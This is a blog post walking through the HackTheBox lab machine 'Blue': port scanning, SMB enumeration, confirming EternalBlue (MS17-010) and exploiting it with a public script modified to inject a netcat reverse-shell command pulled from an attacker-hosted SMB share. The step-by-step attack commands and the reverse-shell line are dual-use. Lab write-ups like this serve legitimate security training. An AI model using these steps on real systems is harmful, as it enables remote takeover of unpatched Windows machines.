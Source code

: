 ```yaml
---
layout: post
comments: true
title: "Blue HTB Write Up"
tags: ['hackthebox', 'writeup', 'eternal-blue']
---
```


## Introduction
Today we are going to PWN a HackTheBox machine called Blue.
Blue is an easy machine, we are going to use tools such as nmap to scan the ports, crackmapexec to recognise all the network devices via smb.
We are going to exploit an EternalBlue vulnerability, and finally we are going to learn how to inject code in the victim's machine through this vulnerability.

## Dependencies
* In order to everything work you must have Python2 and pip2 installed.
[HowToInstallPip2Parrot](../../../../2021/12/30/installing-pip2-on-parrot.html)

* crackmapexec
```bash
sudo apt install crackmapexec
```

## Ports recognizement
The ip address of this machine is the 10.10.10.40.
First we need to indetify all the ports open on the machine, we are going to run:
```bash
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.10.40 -oG ports
```
* -sS -> TCP SYN (Stealth) Scan
* --min-rate -> specify the number of packets you are sending per second
* -p- -> scan all range of ports
* --open -> only scan open ports
* -vvv -> while the program in running you can get additional information about hte proccess
* -n -> don't use DNS resolution
* -Pn -> use it if the host is blocking ping proves
* -oG -> return the result in a grepeable file in order to proccess it later

We are going to use [getPorts](https://github.com/isuckatlinux/getPorts) to extract all the relevant data from the nmap output
```bash
getPorts ports
```

Once we extracted all the ports we are going to find out the service they are running:
```bash
nmap -sC -sV -p135,139,445,49153 10.10.10.40 -oN services
```
* -oN -> return the output into a nmap file
* -sV -> enum services
* -p*p1, p2, pn* -> specify this ports


We can see port 445 open, this might be a smb vulnerability, let's find out.
With [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) we can see all the devices using a service over the entire network (beside other uses)
```bash
crackmapexec smb 10.10.10.0/24
```
*Because we are targeting a particular computer we could also specify this computer and not the entire network*



We see the host is runnning windows7 🤓 <br>
MS017, most know as Eternal Blue, was a vulnerability in the smb protocol that affectes WindowsXP and windows7 computers.
If this haven't been patched on the machine this means that we already got a very serious vulneravilty in the system that will allow us to execute code as admin.

We are going to see two ways of see if this machine is vulnerable:
1. Nmap scripts.<br>
Nmap have a lot of scripts that allows checking multiple vulneravilities. These scripts are sorted by categories.
In order to see all the categories in nmap we could run:
```bash
locate .nse | xargs grep "categories" | grep -oP '"*"' | sort -u
```
We can see a bunch of categories, we will cover all the categories in another post soon 🤖.
For the time we are going to be using "vuln and safe"
So lets run:
```bash
nmap --script "vuln and safe" -p445 10.10.10.40 -oN smbVulnerable
```
![image1](https://abusinglinux.com/assets/images/blue-htb/nmap_scripts_output.png)
<br>
BINGO! We can see in the picture the service is vulnerable

1. Eternal blue checker <br>
We are going to use a [checker](https://github.com/worawit/MS17-010) 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
```
The checker is named *checker.py*<br>
We run:
```bash
python2 checker.py 10.10.10.40
```
We can see all the pipes are denied.
We have to try the user 'guest'. We look into the code and we see two fields empty, the username and the password.
We introduce 'guest' in the username string.
<br>
We run again:
```bash
python2 checker.py 10.10.10.40
```

![image2](https://abusinglinux.com/assets/images/blue-htb/username_guest.PNG)<br>
As we can see we have a bunch of pipes that reported OK. <br>


## Exploiting
In the exploiting phase we could use Metasploit, but there is an issue with that. Eternal blue is a kernel-level vulnerability, that means that if anything goes wrong (or everything doesn't go perfect) we most likely to have blue screen or very inestable shells.
That's why in these cases where you want to have all control is actually better to just inject the code yourself.

In order to proceed to inject code we are going to use the repo we used before to check the vulnerability [MS17-010](https://github.com/worawit/MS17-010).

Now we are going to use the zzz_exploit.py
This exploit run a trivial command on the victim's machine. We are going to find that command and replace it with our personal one.
The method we are going to edit is *smb_pwn*.<br>
We are going to comment all lines of the code except the first one. And we are going to decomment the *service_exec* line <br>
The code should look like this:<br>
![image3](https://abusinglinux.com/assets/images/blue-htb/zzz_modified.PNG)

We are going to exploit this vulnerability by sharing a folder with smb witch contains [netcat](https://es.wikipedia.org/wiki/Netcat) and we are going to run netcat from the victims machine to produce a reverse shell.
The command we have to inject is the next
```bash
cmd /c \\<your_tun0_ip>\sharedFolder\nc.exe -e cmd <your_tun0_ip> 443
```
So you the line have to look like that:
```python
service_exec(conn, r'cmd /c \\<your_tun0_ip>\sharedFolder\nc.exe -e cmd <your_tun0_ip> 443')
```
In addition, we have to set the username to 'guest' just how we did on the checker

So, the steps are:
1. Share a folder with the netcat
    * We have to locate netcat in our machine and copy it to our folder wich we are going to be sharing soon
    ```bash
    locate nc.exe
    cp *path_to_netcat* $(pwd)
    ```
    If you are not able to locate nc.exe here's a link to download [netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)<br>
    *At this point we have to have netcat in our folder*

    * Share the folder
    ```bash
    imppacket-smbserver sharedFolder $(pwd) -smb2support 
    ```
    *The flag smb2support is no necessary beacuse we are dealing with version one of the smb protocol, but It's a good practice to give support v2 just in case*


2. Listening at port 443 to get the reverse shell
```bash
    nc -nlvp 443
```
3. Finallly exploiting!
We could use any pipe the checker reported to be OK.<br>
We are going to use samr

```bash
zzz_exploit.py 10.10.10.40 samr
```

>BOOM 💥

If everything it's working fine we should see a shell.
We could run
```cmd
whoami
```
We should see nt authority system, that means that we have admin privileges.

Now let's see the flags:
```cmd
cd C:\Users\haris\Desktop
type user.txt

cd C:\Users\Administrator\Desktop
type root.txt
```

Thank's all for reading this! I hope you enjoyed this writing, any feedback is welcome.

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://isuckatlinux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}